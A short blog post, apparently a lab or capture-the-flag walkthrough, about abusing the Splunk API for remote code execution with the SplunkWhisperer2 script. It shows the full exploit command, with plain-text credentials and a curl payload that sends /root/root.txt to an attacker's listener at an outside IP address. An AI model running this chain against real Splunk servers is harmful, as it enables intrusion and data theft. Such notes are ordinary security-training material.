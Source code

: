 ```yaml
---
layout: post
title: Splunk Wispherer
description: Splunk Wispherer
summary: Splunk Wispherer
tags: [rce,devops]
minute: 1
---
```

# Overview
Authenticated attacker can send malicuous package to splunk API and execute it. This can be done remotely or locally.

# Using python3 on local exploit
* Convert this [exploit](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_local.py) into python3

```bash
# replace functions
raw_input() --> input()
print "some text" --> print("some text")
```

* Open netcat listener on attacker machine to receive the output
* Upload exploit to victim machine and run

```bash
python3 PySplunkWhisperer2_local.py --port 8089 --username shaun --password Guitar123 --payload "curl -F 'data=@/root/root.txt' http://10.10.14.26:4444"
```

* Sample execution

![](/spindel/assets/Splunk%20Wispherer/E8F96602-F53E-48EB-9F78-BE72A20830F5.png)

![](/spindel/assets/Splunk%20Wispherer/86A9D789-E1E0-42DB-B3AA-9A22562844E1.png)

# References
* [Abusing Splunk Forwarders For Shells and Persistence · Eapolsniper's Blog](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)